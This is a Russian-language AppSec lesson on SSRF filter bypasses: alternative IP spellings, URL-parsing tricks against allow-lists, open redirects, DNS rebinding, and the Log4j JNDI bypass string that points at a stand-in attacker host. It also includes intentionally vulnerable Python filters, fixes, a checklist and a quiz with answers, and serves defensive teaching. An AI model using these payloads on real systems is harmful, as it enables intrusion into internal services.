


# Обход фильтров SSRF

У магазина есть предпросмотр ссылки: вы вставляете адрес в поле, а сервер
сам его открывает и показывает карточку страницы. Из темы `ssrf-basics` вы
знаете, чем это грозит: адрес выбирает клиент, а ходит по нему сервер,
которому открыта внутренняя сеть. Поэтому здесь перед запросом стоит фильтр
— код, который читает присланную строку и решает, пускать её дальше или
отклонить. Фильтр магазина запрещает три строки: `127.0.0.1`, `localhost` и
адрес метаданных `169.254.169.254`. На прямую попытку он срабатывает ровно
так, как задумано.

**Запрос, который фильтр остановил**

```http
GET /preview?url=http://127.0.0.1:8080/admin HTTP/1.1
Host: shop.example.com
```

**Ответ**

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json

{"error":"внутренний адрес"}
```

Теперь тот же адрес панели, но записанный одним числом.

**Запрос, который фильтр пропустил**

```http
GET /preview?url=http://2130706433:8080/admin HTTP/1.1
Host: shop.example.com
```

**Ответ**

```http
HTTP/1.1 200 OK
Content-Type: text/html

<h1>Панель администратора</h1>
```

Строки `127.0.0.1` во втором запросе нет, и все три запрета фильтр прошёл
молча. Дальше строку читал уже не он, а клиент HTTP, и для клиента
`2130706433` — обычная запись адреса петли. Фильтр не «забыл вписать адрес»:
он проверял строку, а соединение устанавливалось по адресу, и это разные
вещи. Дальше разберём, почему одна строка читается двумя программами
по-разному и что остаётся от проверки после всех приёмов.

## Два читателя одной строки

Фильтр — это проверка входных данных до того, как с ними начнёт работать
код, которому они предназначены. Заводят его потому, что поле с адресом —
точка входа: всё, что туда пришло, приложение вынуждено хотя бы прочитать.
Бытовой пример — охранник на входе со списком: разбираться с каждым
посетителем у него времени нет, есть только список фамилий и сверка. Списки
бывают двух видов. Список запрещённого называет, кого пускать нельзя, и
пропускает остальных. Список разрешённого называет, кого пускать, и
отклоняет остальных.

Соответствие такое: фамилия в списке — запрещённые строки фильтра,
посетитель — присланный адрес, турникет — клиент, который пойдёт по этому
адресу. Ломается аналогия на природе объекта. У человека одно лицо и одна
фамилия, а у одного сетевого адреса много разных строк. Охранник сравнивает
фамилии, фильтр — строки, и ни тот ни другой не видит того, что стоит за
записью.

У фильтра из начала темы — список запрещённого: он ищет в присланной строке
три запрета. Соединение же устанавливает не фильтр, а клиент HTTP. Клиент
читает ту же строку заново: разбирает её своим разборщиком адреса, а имя
разрешает в числовой адрес через DNS. Разборщик — функция, которая режет
строку адреса на части: схему, учётные данные, хост, порт, путь. Как
устроены эти части и что такое процентное кодирование, разбирает тема
`url-and-encoding`. Читателей у строки поэтому два, и читают они по-разному.



**Описание схемы.** Схема читается сверху вниз и показывает путь присланной
строки. Первым её читает фильтр и решает по внешнему виду: похожа ли строка
на запрещённую. Если фильтр пропустил, строку второй раз читает клиент:
разбирает своим разборщиком, разрешает имя и только после этого соединяется.
Разрыв, на котором стоят все приёмы темы, — между ромбом и соединением:
решение принято по строке, а соединение устанавливается по адресу.

**Зачем это в работе AppSec-инженера.** Список запрещённых адресов вы,
возможно, писали сами: петля, `localhost`, приватные диапазоны — и поле с
адресом закрыто. Проверка при этом сравнивала строку, а соединение потом
устанавливалось по адресу, и это разные вещи. Фильтр — самое частое, что
встречается на месте защиты от SSRF: он выглядит решением и почти никогда им
не работает. Ревьюеру нужно показать это за одну итерацию, а не спорить о
полноте списка. Предмет здесь конечный, и в нём стоит разобраться один раз.

**Откуда это взялось.** Запись адреса определяли четыре документа подряд,
начиная с RFC 1738 и кончая RFC 3986, и каждый что-то менял. Библиотеки
разбора писались в разное время под разные редакции, а некоторые сознательно
отступили от последней ради совместимости с тем, что встречается в жизни.
В итоге одна строка стала законно читаться по-разному, и это не дефект
отдельной библиотеки, а свойство экосистемы. Фильтр, написанный на строке,
оказался проверкой не того объекта.

## Как это работает

Все приёмы темы стоят на одном разрыве: проверка читает строку, а соединение
устанавливается по адресу. Записей одного адреса бесконечно много: к
восьмеричной записи всегда можно дописать ещё один ведущий ноль. Групп приёмов
при этом конечное число. Дальше они разобраны по трём: записи одного числа,
приёмы против имени хоста и смена ответа между проверкой и соединением.
Последняя группа строку не трогает вовсе.

### Одна петля, шесть записей

Адрес IPv4 — одно число из 32 бит. Привычная запись `127.0.0.1` — четыре
куска этого числа через точку: 127, потом 0, 0 и 1. Соединения устанавливает
сетевой стек, часть операционной системы, и его функция `inet_aton` принимает
записи короче. Она склеивает пропущенные куски, читает адрес как одно число
и понимает восьмеричную и шестнадцатеричную запись: так сложилось
исторически, от ранних Unix. Строгий разборщик `ipaddress` из стандартной
библиотеки Python принимает только четыре куска через точку.

Одна и та же петля для двух читателей выглядит так.

```text
127.0.0.1        inet_aton -> 127.0.0.1   ipaddress -> принят
127.1            inet_aton -> 127.0.0.1   ipaddress -> отвергнут
2130706433       inet_aton -> 127.0.0.1   ipaddress -> отвергнут
017700000001     inet_aton -> 127.0.0.1   ipaddress -> отвергнут
0x7f.0.0.1       inet_aton -> 127.0.0.1   ipaddress -> отвергнут
0177.0.0.1       inet_aton -> 127.0.0.1   ipaddress -> отвергнут
```

Шесть строк слева — один адрес. Таблица снята запуском на Python 3.14.7:
`inet_aton` принимает все шесть записей и даёт `127.0.0.1`, а `ipaddress` —
одну из шести. Число из начала темы получается так: 127 умножить на два в
степени 24 плюс 1, итого 2130706433. Восьмеричная `017700000001` — то же
число по основанию восемь, а `0x7f.0.0.1` — первый кусок по основанию
шестнадцать. Проверка, написанная на строгом разборщике, не говорит, куда
пойдёт сетевой стек.

Учебные материалы называют тот же набор приёмами. Web Security Academy и
тест WSTG-v42-INPV-19 перечисляют десятичную запись числом, восьмеричную и
сокращённую. К ним обе страницы добавляют своё имя, разрешающееся в петлю: домен
регистрируется один раз за небольшие деньги, а в списках запрещённого его
нет. Ещё два приёма из тех же
источников — процентное кодирование запрещённой строки и смена регистра.
Строки `%4Cocalhost` и `LOCALHOST` проверкой на подстроку `localhost` не
ловятся, а разрешаются в ту же петлю.

### Четыре приёма против списка разрешённого

Список запрещённого проходят другой записью того же адреса. Список
разрешённого так не пройти: других записей чужого имени не существует.
Приёмы против него пользуются тем, что имя хоста в строке адреса стоит не
там, где его ждёт наивная проверка. Устройство строки разбирает тема
`url-and-encoding`. Коротко: после схемы и двух косых черт идут необязательные
учётные данные с `@`, затем хост с портом и путь. А после `#` стоит фрагмент,
который на сервер не отправляется вовсе.

| Строка | Что видит наивная проверка | Куда пойдёт клиент |
|---|---|---|
| `https://expected-host:pw@evil-host/` | `expected-host` | `evil-host` |
| `https://evil-host#expected-host/` | `expected-host` | `evil-host` |
| `https://expected-host.evil-host/` | `expected-host` | `expected-host.evil-host` |
| `https://expected-host%2Eevil-host/` | зависит от декодирования | зависит от клиента |

Первый приём — учётные данные перед `@`: всё до собаки относится к логину и
паролю, а не к хосту. Проверка вхождением подстроки находит `expected-host`
в левой части и пропускает, а клиент идёт на `evil-host`. Второй приём —
фрагмент после `#`: разрешённое имя стоит в куске строки, который до сервера
не доедет вовсе. Третий — иерархия имён: разрешённая строка становится
поддоменом чужого домена, и проверка вхождением её пропускает, хотя хост
здесь целиком чужой. Четвёртый — процентное кодирование, в том числе
двойное: проверяющий код и клиент декодируют строку разное число раз и
по-разному решают, где стоит точка.

Хосты в первых трёх строках сверены разбором через
`urllib.parse.urlsplit`: результат совпадает с третьей колонкой. В четвёртой
строке разборщик оставляет кодированную точку как есть, и дальше всё решает
клиент: декодирует ли он её перед разрешением имени. Приёмы складываются, и в
сочетании дают строки, на которых расходятся уже не проверка и клиент, а два
разборщика внутри одной библиотеки.

### Когда расходятся два разборщика в одной программе

Исследование Team82 и Snyk сравнило шестнадцать разборщиков адреса. Их
расхождения сведены к пяти видам: путаница схемы, путаница числа косых черт,
обратная косая черта, кодированные данные и разбор адреса чужой схемы без
её разборщика. Вывод оттуда переносится на любой фильтр: строка адреса — не
значение, а программа, и результат зависит от того, кто её выполняет.

Показательнее всего разобранный там же обход заплатки Log4j,
CVE-2021-45046. Log4j — библиотека журналирования на Java: она записывает
события приложения в журнал. Дефект в ней позволял строке из журналируемого
сообщения заставить сервер загрузить чужой код. Механизм загрузки — JNDI
(Java Naming and Directory Interface), интерфейс Java для поиска объектов
по имени в каталоге. Это примерно как поиск контакта
в общей адресной книге компании, только для программ. Разница в ответе: книга
возвращает карточку, а JNDI может вернуть сам код. Заплатка ограничила поиск
списком разрешённых хостов, где по умолчанию стоял только локальный. Обход
выглядел так:

```text
${jndi:ldap://127.0.0.1#.evilhost.com:1389/a}
```

Проверку делал разборщик `URI` из Java, и он видел хост `127.0.0.1`, тот
самый, что в списке. Загрузку делал другой код, и на части систем он шёл на
`127.0.0.1#.evilhost.com`. Два разборщика, одна строка, разные хосты. Ровно
этого требует не допускать ASVS v5.0-1.5.3: проверка и использование обязаны
опираться на один разбор.

### Разрешённый хост и время проверки

Два приёма снимают фильтр, не трогая строку вовсе. Оба стоят на времени:
между «проверили» и «пошли» что-то успевает измениться.

**Открытое перенаправление.** Перенаправление — ответ сервера с кодом 302 и
заголовком `Location`: «здесь пусто, идите вот по этому адресу». Заведено
оно для переездов страниц, а открытым называется, когда адрес переезда
берётся из запроса без проверки, как в `/redirect?to=<адрес>`. Само по себе
это CWE-601, дефект невысокой оценки. В паре с фильтром SSRF оно работает
иначе: строка проходит проверку честно, потому что хост разрешённый. Дальше
этот хост отвечает перенаправлением на внутренний адрес, и клиент, которому
позволено ходить по перенаправлениям, идёт туда. Фильтр снят целиком, а
присланная строка осталась безупречной.

**Повторное разрешение имени.** Чтобы пойти по адресу с именем, клиент
сначала спрашивает DNS, службу соответствия имён и числовых адресов: как в
телефонной книге, по имени находят номер. Бытовая книга меняется раз в год,
а запись DNS живёт столько, сколько назначил владелец домена, и у атакующего
это считанные секунды. Последовательность такая. Проверка разрешает имя и
видит публичный адрес, всё честно. Запрос разрешает то же имя заново перед
соединением и получает внутренний адрес, потому что запись успели сменить.
Между проверкой и использованием прошло время, и значение за это время
изменилось: это классическое состояние гонки, CWE-367.



**Описание схемы.** Схема читается сверху вниз, и время в ней течёт вниз же.
Сначала фильтр спрашивает DNS и получает публичный адрес: проверка пройдена
честно. Затем то же имя перед соединением разрешает клиент и получает петлю,
потому что запись жила считанные секунды и её сменили. Разрыв между этими
двумя ответами и есть окно гонки: проверялся один адрес, а соединение
установлено с другим.

Памятка OWASP по защите от SSRF называет этот случай отдельно и требует к
списку доменов ещё двух вещей. Первая — разрешать свои домены своим
резолвером, то есть своим сервером DNS, первым в цепочке. Вторая — следить,
не начал ли домен из списка разрешаться в локальный или внутренний адрес.

## Как это атакуют

Порядок перебора пишется прямо из разрыва. Атакующий начинает с адреса,
который точно закрыт: петля или адрес метаданных. Честный отказ говорит,
что фильтр есть, а вид фильтра выбирает дальнейшие шаги. Как читать ответы
предпросмотра и что делать, когда ответа не видно, разбирают темы
`ssrf-basics` и `blind-ssrf`.

Против списка запрещённого перебирают записи одного адреса: число целиком,
восьмеричную и шестнадцатеричную запись, сокращённую. Затем идут процентное
кодирование запрещённой строки и смена регистра. Дальше — своё имя,
разрешающееся в петлю: домен регистрируется один раз и работает против всех
фильтров сразу.

Против списка разрешённого перебирают места, где в строке может встретиться
разрешённое имя: учётные данные перед `@`, фрагмент после `#`, поддомен
чужого домена, кодированная точка. Когда строка безупречна и ничего не
сработало, остаются два хода без строки. Первый — поискать открытое
перенаправление на разрешённых хостах. Второй — попробовать сменить ответ
DNS между проверкой и соединением.

## Как это выглядит в коде

Ревьюер ищет три признака подряд: проверку на подстроку, проверку имени
вместо адреса и разрыв между проверкой и соединением. У фильтра из начала
темы виден первый из трёх признаков. Прежде чем читать выноски, найдите его
в листинге сами.

```python
# УЯЗВИМО — демонстрация, не для продакшена
BLOCKED = ("127.0.0.1", "localhost", "169.254.169.254")

def preview(request):
    url = request["query"]["url"]
    if any(bad in url for bad in BLOCKED):        # (1)
        raise Denied("внутренний адрес")
    return requests.get(url, timeout=5)           # (2)
```

1. Проверка на вхождение подстроки в строку адреса. Её проходят все шесть
   записей петли из раздела «Как это работает»: ни одна не содержит
   запрещённых строк.
2. Соединение устанавливает клиент, разрешая имя заново и проходя
   перенаправления по умолчанию: библиотека `requests` следует за ответом
   302 без дополнительных настроек.

Список разрешённого выглядит лучше и ломается тоньше.

```python
# ФРАГМЕНТ — срез, самостоятельно не компилируется
# УЯЗВИМО — демонстрация, не для продакшена
if not urlsplit(url).hostname.endswith("partner.example"):  # (3)
    raise Denied("хост не разрешён")
return requests.get(url, timeout=5)                         # (4)
```

3. Сверка по концу строки: её проходит `evil-partner.example`. Даже сверка
   имени целиком проверила бы имя, а не адрес, в который оно разрешится.
4. Второе разрешение имени. Между строкой 3 и строкой 4 адрес может
   смениться, как в приёме с повторным разрешением.

**Ложное срабатывание.** Проверка на подстроку в коде, где адрес до неё уже
собран приложением из постоянных частей. Проверка там лишняя, но дефекта не
создаёт: строку не выбирает тот, кто её присылает.

Скажите, не возвращаясь к листингам: какие из трёх признаков есть и у
второго фильтра, хотя список в нём разрешённый?

## Как защититься

Правило одно: проверять то, с чем будет установлено соединение, а не строку,
которую прислали. Почему именно так: все приёмы темы живут в разрыве между
строкой и адресом, и правило закрывает сам разрыв, а не отдельные записи.
Из правила выводятся четыре плана чтения исправленного варианта. Первый —
разобрать строку тем разборщиком, чей результат уйдёт в соединение. Второй —
сверить хост со списком без послаблений на запись. Третий — проверить адрес
после разрешения имени. Четвёртый — запретить перенаправления.

```python
# ФРАГМЕНТ — срез, самостоятельно не компилируется
scheme, host, port, path = split(url)             # (1)
if scheme not in ("http", "https"):
    raise Denied("схема не разрешена")
if host not in PARTNERS:                          # (2)
    raise Denied("хост не в списке")
address = resolve(host)                           # (3)
if not ip_is_allowed(address):
    raise Denied("адрес назначения не разрешён")
return net.get(f"{scheme}://{host}:{port}{path}",
               follow_redirects=False)            # (4)
```

1. Разбор одним разборщиком — тем же, чей результат уйдёт в соединение.
   Двух чтений одной строки больше нет, и расхождению взяться неоткуда.
2. Сверка со списком целиком: без `endswith`, `startswith` и вхождения
   подстроки. Имя `evil-partner.example` здесь не пройдёт.
3. Разрешение имени в приложении и проверка полученного адреса. Этот шаг
   закрывает и запись числом, и своё имя, указывающее на петлю: как ни
   запиши петлю, адрес после разрешения один.
4. Перенаправления не проходятся: ответ с кодом 302 и заголовком
   `Location` на внутренний адрес останется ответом, а не станет соединением. Требование
   ASVS v5.0-1.3.6 просит сверять схему, домен, путь и порт; памятка OWASP
   добавляет к этому запрет перенаправлений в клиенте.

Запрос с числом из начала темы не доходит и до разрешения имени:
`2130706433` в списке партнёров не значится. Разрешённый хост, начавший
разрешаться в петлю, отсекла бы проверка адреса на третьем шаге.

**Границы применимости.** Между выноской 3 и выноской 4 остаётся то самое
окно гонки: соединение установит клиент, и он разрешит имя ещё раз. Закрыть
окно целиком можно, только соединяясь с проверенным адресом напрямую, а имя
передавая отдельно: в заголовке `Host` и при проверке сертификата. Такой код
пишется руками поверх клиента, и цена ему — своя реализация установки
соединения, с TLS и таймаутами. Что делать, когда платить за это не хочется,
разбирает тема `ssrf-defense`: там то же окно закрывается ниже уровня
приложения, сегментацией сети.

## Частая ошибка

Фильтр из начала темы закрывал три строки, и петля среди них была. Отсюда
представление: список запрещённых адресов — рабочая защита, надо только
составить его полно, со всеми приватными диапазонами и адресом метаданных.
Решите до чтения дальше: сработал бы этот довод на ревью?

Он не сработал бы, и причина не в полноте. Список запрещённого проверяет
строку, а соединение устанавливается по адресу. Между проверкой и соединением
строка успевает превратиться в другой адрес: разрешением имени,
перенаправлением или разбором в другой библиотеке. Пополнение списка не
закрывает ничего из этого.

Контрпример — второй запрос из начала темы. Чтобы остановить его списком,
пришлось бы вписать все шесть записей петли, потом её же в процентном
кодировании, потом чужое имя, разрешающееся в петлю. Список кончится раньше,
чем записи.

## Чеклист для ревью

1. Проверьте, что проверка адреса делается тем же разборщиком, результат
   которого уходит в соединение (ASVS v5.0-1.5.3).
2. Проверьте, что сверка хоста идёт со списком целиком, а не по началу
   строки, концу строки или вхождению подстроки.
3. Проверьте, что проверяется адрес после разрешения имени, а не только имя.
4. Проверьте, что приняты и отвергнуты одинаково все записи одного адреса:
   десятичная, восьмеричная, шестнадцатеричная и сокращённая
   (WSTG-v42-INPV-19).
5. Проверьте, что клиент не проходит перенаправления либо повторяет полную
   проверку на каждом переходе (ASVS v5.0-1.3.6).
6. Проверьте, что хосты из списка разрешённого не разрешаются в локальные и
   внутренние адреса, и это отслеживается, а не проверено однажды.
7. Проверьте, что открытое перенаправление на разрешённых хостах учтено как
   часть поверхности SSRF, а не как отдельная находка невысокой оценки.

## Попробуй сам

Возьмите фильтр адреса из своего кода или напишите наивный: список
запрещённых строк. Прогоните через него шесть записей петли из раздела «Как
это работает» и четыре строки из таблицы приёмов. Рядом посчитайте, во что
каждую из них превращает разрешение адреса и разбор адреса в вашем стеке.

Одна подсказка: сравнивайте не «прошло или нет», а два столбца — что увидел
проверяющий код и что увидел бы клиент.

**Критерий выполнения** наблюдаемый: таблица из десяти строк с тремя
колонками — присланная строка, результат проверки, хост после разбора
клиентом. Отдельной строкой записано, сколько строк дали расхождение между
второй и третьей колонками.

## Проверь себя

1. Прислан адрес:

   ```text
   https://partner.example:pw@evil.example/report
   ```

   Какой хост увидит проверка началом строки и куда пойдёт клиент?

2. Фильтр из раздела «Как это выглядит в коде» сверяет вхождение подстроки
   по списку `BLOCKED`. Какая правка устраняет дефект?

   A. Дописать в список все записи петли: `127.1`, `2130706433`,
      `017700000001`, `0x7f.0.0.1`.

   B. Сверять со списком разрешённого адрес назначения после разрешения
      имени и не проходить перенаправления.

   C. Сверять имя хоста со списком партнёров через `endswith`.

3. Почему проверка имени хоста не заменяет проверки адреса назначения?

4. Что вернёт каждый из двух разборщиков для строки `2130706433`?

   ```python
   import socket, ipaddress
   print(socket.inet_ntoa(socket.inet_aton('2130706433')))
   print(ipaddress.ip_address('2130706433'))
   ```

5. Возврат к теме `url-and-encoding`: какие части адреса определяют хост и
   почему двойное кодирование даёт расхождение?

<details markdown="1">
<summary>Ответ 1</summary>

1. Проверка началом строки увидит `partner.example`. Клиент пойдёт на
   `evil.example`: всё до `@` относится к учётным данным, а не к хосту.

</details>

<details markdown="1">
<summary>Ответ 2: разбор вариантов</summary>

2. Верно: B.

   A. Неверно. Список запрещённого проверяет строку, а соединение идёт по
      адресу. Записей одной петли шесть и больше, и после них останутся имя,
      разрешающееся в петлю, и перенаправление. Список кончится раньше
      записей.

   B. Верно. Проверяется то, с чем будет установлено соединение: адрес
      после разрешения имени, а не строка. Запрет перенаправлений закрывает
      смену цели после проверки.

   C. Неверно. Сверка по концу строки пропускает `evil-partner.example`,
      а даже сверка целиком проверила бы имя, а не адрес, в который оно
      разрешится.

</details>

<details markdown="1">
<summary>Ответ 3</summary>

3. Имя разрешается в адрес, и разрешение делается заново перед соединением.
   Имя из списка может указывать на внутренний адрес — постоянно или
   несколько секунд.

</details>

<details markdown="1">
<summary>Ответ 4</summary>

4. Первый вернёт `127.0.0.1`, второй упадёт с ошибкой
   `ValueError: '2130706433' does not appear to be an IPv4 or IPv6 address`.
   Строгий разборщик отвергает то, что сетевой стек принимает, и проверка на
   одном не говорит, куда пойдёт другой. Ответ получен запуском:
   `python3 probe.py` с фрагментом из вопроса, повторён 2026-10-03 на Python
   3.14.7.

</details>

<details markdown="1">
<summary>Ответ 5</summary>

5. Хост задаёт часть authority между `//` и первым `/`, с учётом `@` и `:`.
   Двойное кодирование даёт расхождение, когда проверяющий код декодирует
   строку один раз, а клиент — два.

</details>

## Источники

1. PortSwigger Web Security Academy, «Server-side request forgery (SSRF)»;
   реестр `ps-ssrf`. Разделы: SSRF with blacklist-based input filters, SSRF
   with whitelist-based input filters, Bypassing SSRF filters via open
   redirection.
   <https://portswigger.net/web-security/ssrf>
2. OWASP WSTG-INPV-19 «Testing for Server-Side Request Forgery», WSTG v4.2;
   реестр `wstg-v42-inpv-19-ssrf`. Разделы: Common Filter Bypass.
   <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery>
3. OWASP Server-Side Request Forgery Prevention Cheat Sheet; реестр
   `owasp-cs-ssrf`. Разделы: Application layer — IP address, Domain name,
   URL; примечание о запрете перенаправлений.
   <https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html>
4. Claroty Team82 и Snyk, «Exploiting URL Parsing Confusion», 10 января 2022;
   реестр `claroty-url-parsing-confusion`. Разделы: Recent Example — Log4j
   allowedLdapHost Bypass, Team82-Snyk Joint Research Outcomes.
   <https://claroty.com/team82/research/exploiting-url-parsing-confusion>

Каркас этапа: `owasp-asvs-5-document` (ASVS v5.0.0), `owasp-wstg-42`,
`owasp-top10-2025`; SSRF отнесён к A01:2025. Наследуются всеми темами и
отдельной строкой не повторяются. Четвёртая сноска — четвёртый источник под
незакрытый блок: расхождения разборщиков не разбирает ни одна из первых трёх
страниц.

**Скоропортящийся слой.** Поведение конкретных библиотек разбора адреса
меняется от версии к версии: таблица шести записей снята на одной версии
Python и на другой может отличаться. Исследование Team82 датировано и больше
не обновляется — восемь его уязвимостей закрыты, кроме найденных в
неподдерживаемых версиях Flask.

**Маркеры уверенности.** Таблица шести записей петли — **проверено лично**
2026-08-24 на Python 3.14.7: `socket.inet_aton` принимает все шесть записей
и даёт `127.0.0.1`, `ipaddress.ip_address` принимает одну из шести. Прогон
повторён 2026-10-03 на той же версии, вывод совпал дословно. Хосты в таблице
приёмов сверены там же разбором через `urllib.parse.urlsplit`, повторно
2026-10-03. Приёмы обхода списков и открытое перенаправление — **по
документации** (Web Security Academy и WSTG-INPV-19, открыты лично
2026-08-24). Разбор CVE-2021-45046, пять видов расхождений и число
сравнённых разборщиков — **по исследованию** (Claroty Team82, открыто лично
2026-08-24); сам обход **не воспроизводился**, стенда с уязвимой версией
Log4j не собиралось. Требования 1.3.6 и 1.5.3 сверены с текстом ASVS v5.0.0
(открыт лично 2026-08-24).
